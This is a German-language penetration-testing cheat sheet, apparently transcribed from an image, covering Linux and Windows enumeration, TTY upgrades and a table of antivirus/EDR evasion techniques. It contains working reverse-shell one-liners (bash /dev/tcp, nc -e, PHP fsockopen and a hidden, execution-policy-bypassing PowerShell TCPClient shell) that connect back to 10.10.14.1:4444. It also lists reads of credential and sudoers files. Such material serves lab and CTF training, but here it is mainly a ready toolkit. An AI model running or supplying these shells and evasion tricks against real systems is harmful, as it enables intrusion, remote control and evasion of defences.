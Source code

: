 ____________________________________________________________________________
| Begriff   | Bedeutung                                                    |
| --------- | ------------------------------------------------------------ |
| CLI       | *Command Line Interface*, z. B. Bash, CMD, PowerShell        |
| Shell     | Benutzerinterface zur Systemsteuerung (via Textbefehle)      |
| TTY / PTY | *Teletype* / *Pseudo Terminal* – wichtig bei Shell-Spawns    |
| REPL      | Read-Eval-Print-Loop – Grundprinzip jeder interaktiven Shell |


**🐧 Linux Shell Basics (bash, sh, zsh):**
pwd                     # aktuelles Verzeichnis
ls -lah                  # alle Dateien anzeigen
cd /etc                 # in Verzeichnis wechseln
whoami                  # aktueller Nutzer
id                      # Nutzer + Gruppen
uname -a                # Kernelversion
hostname                # Hostname
sudo -l                 # Sudo-Rechte anzeigen
find / -perm -u=s -type f 2>/dev/null  #SUID
**Prozesse & Netzwerk**
ps aux | grep root
netstat -tulnp
ss -tuln
**Pakete & Dienste**
dpkg -l                 # Debian Pakete
rpm -qa                 # RedHat Pakete
systemctl list-units --type=service


**Bash & Reverse Shells:** (lokal listener: nc -lvnp 4444)
bash -i >& /dev/tcp/10.10.14.1/4444 0>&1
nc -e /bin/sh 10.10.14.1 4444
php -r '$sock=fsockopen("10.10.14.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

**Shell POWER-UP**
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL-Z → stty raw -echo; fg


**Windows:**
whoami
hostname
ipconfig /all
tasklist
netstat -ano
dir
cd
type file.txt

**Dienste & Prozesse**
sc query
tasklist /SVC
wmic service list brief

**Benutzer und Gruppen**
net user
net localgroup
net localgroup administrators



**PowerShell:**
Get-Process
Get-Service
Get-LocalUser
Get-LocalGroup
Get-Content C:\flag.txt
Start-Process cmd.exe

Get-NetTCPConnection
Test-Connection 10.10.14.1
Resolve-DnsName target.local

Get-ChildItem -Recurse -Force
Get-Acl C:\flag.txt | Format-List

**PowerShell Reverse Shell:**
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object Net.Sockets.TCPClient("10.10.14.1",4444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + "PS " + (pwd).Path + "> ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# → Funktioniert auch in HTA-, Macro- oder Webshell-Form.

| Typ                    | Beschreibung                   | TTY-Upgrade nötig?     |
| ---------------------- | ------------------------------ | ---------------------- |
| **Bash Shell**         | Direkt via Linux               | Meist ja               |
| **Meterpreter**        | MSF Shell mit Zusatzfunktionen | Nein                   |
| **PowerShell**         | Windows, mächtig & oft erlaubt | Nein                   |
| **CMD Shell**          | Basic, aber oft Whitelisted    | Nein                   |
| **Webshells**          | z. B. PHP, JSP, ASPX           | Ja, für Interaktivität |
| **nc/powershell/bind** | Manuelle Verbindung            | Ja, meistens           |

**AV/EDR-Evasion:**
| Technik                    | Erklärung                             |
| -------------------------- | ------------------------------------- |
| Encoding                   | z. B. base64-encoded PowerShell       |
| Obfuscation                | Variablennamen, String-Mix            |
| LOLBins                    | legitime Binaries (z. B. `mshta.exe`) |
| ScriptBlockLogging umgehen | `-ExecutionPolicy Bypass`             |
| ASLR umgehen               | Shellcode-Stager + Loader             |


env
printenv
cat /etc/passwd
cat /etc/group
cat /etc/sudoers
cat ~/.bash_history

Get-History
Get-ExecutionPolicy
Get-Command -Module Net*

# Shell-Erweiterung (TTY-Fix, Interaktivität)
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo; fg
reset
